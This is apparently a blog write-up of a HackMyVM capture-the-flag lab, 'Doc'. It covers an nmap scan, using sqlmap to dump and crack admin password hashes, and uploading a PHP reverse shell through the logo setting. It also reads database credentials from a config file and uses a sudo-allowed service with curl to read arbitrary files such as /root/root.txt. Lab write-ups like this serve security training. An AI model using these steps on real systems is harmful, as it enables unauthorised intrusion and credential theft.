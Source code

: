```yaml
---
layout: post
author: maxin
title:  "Doc"
date:   2021-12-31 09:45:48 AM -03
category: HackMyVM
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Doc)


# Enumeration

{% highlight bash %}
# Nmap 7.92 scan initiated Tue Dec 28 13:14:55 2021 as: nmap -sC -sV -v -oN nmap 192.168.0.166
Nmap scan report for 192.168.0.166
Host is up (0.017s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0
|_http-title: Online Traffic Offense Management System - PHP
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 28 13:15:02 2021 -- 1 IP address (1 host up) scanned in 6.97 seconds
{% endhighlight  %}

# Port 80

We need to add `doc.hmv` to our `/etc/hosts` file

## /admin/login.php

![Untitled](/images/doc/burpsuite.png)

Use the option “copy to file” and use this file on `SQLmap` 

{% highlight bash %}
sqlmap -r req.txt --dump --dbs
{% endhighlight  %}

{% highlight bash %}
[13:58:46] [INFO] retrieved: Admin
[13:59:01] [INFO] retrieved: 0192023a7bbd73250516f069df18b500
[14:00:42] [INFO] retrieved: 1
[14:00:44] [INFO] retrieved: adminyo
[14:01:07] [INFO] retrieved: uploads/1629336240_avatar.jpg
[14:02:47] [INFO] retrieved: 2021-08-19 09:24:25
[14:03:57] [INFO] retrieved:  
[14:04:04] [INFO] retrieved: John
[14:04:21] [INFO] retrieved: 9
[14:04:24] [INFO] retrieved:  
[14:04:30] [INFO] retrieved: Smith
[14:04:49] [INFO] retrieved: 1254737c076cf867dc53d60a0364f38e
{% endhighlight  %}

{% highlight bash %}
sqlmap -r req.txt -D doc -T users --dump --dbms=mysql
{% endhighlight  %}

{% highlight bash %}
Admin    | 0192023a7bbd73250516f069df18b500 (admin123)  | adminyo  | Adminstrator
Smith    | 1254737c076cf867dc53d60a0364f38e (jsmith123) | jsmith   | John
{% endhighlight  %}

Log on /admin/login.php with `adminyo | admin123`

## Reverse shell

- Go to settings
- Change the `System logo` to be a php reverse shell

# User

{% highlight bash %}
/var/www/html/traffic_offense/initialize.php
if(!defined('DB_USERNAME')) define('DB_USERNAME',"bella");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"be114yTU");
{% endhighlight  %}

# Root

{% highlight bash %}
sudo -l

User bella may run the following commands on doc:
    (ALL : ALL) NOPASSWD: /usr/bin/doc
{% endhighlight  %}

Start the binary with sudo and open another reverse shell

Use curl on `getfile` directory with `key` parameter. We can access every file on the box

{% highlight bash %}
curl localhost:7890/getfile?key=/root/root.txt
{% endhighlight  %}